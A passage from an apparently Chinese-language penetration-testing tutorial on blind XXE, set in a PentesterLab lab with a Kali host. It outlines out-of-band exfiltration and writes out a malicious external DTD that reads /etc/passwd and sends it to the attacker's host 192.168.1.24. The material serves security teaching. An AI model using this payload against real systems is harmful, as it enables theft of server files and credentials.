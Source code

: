 >`Connection refused` 栏有数值，证明端口关闭

## 6 无回显的情况下实现数据外带

![无回显的情况下实现数据外带](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E6%97%A0%E5%9B%9E%E6%98%BE%E7%9A%84%E6%83%85%E5%86%B5%E4%B8%8B%E5%AE%9E%E7%8E%B0%E6%95%B0%E6%8D%AE%E5%A4%96%E5%B8%A6.png)

**过程**

1.黑客向目标发送一个 XML 请求 payload，使目标向黑客请求 DTD

2.目标向黑客发送一个 DTD 请求，向黑客请求 DTD

3.黑客向目标发送一个 DTD 到目标

4.目标 XML 解析器解析黑客发来的 DTD

5.解析后将数据发送给黑客

**准备**

配置 `PentesterLab-xxe` 虚拟机

切换至站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /var/www/html/
```

在 Kali 配置一个外部 DTD，用于使目标读取数据，并发送给黑客

```
┌──(root㉿Kali-24)-[~]
└─# vim xxe.dtd
```

```dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.1.24/xxe.php?pass=%p1;'>">
%p2;
```
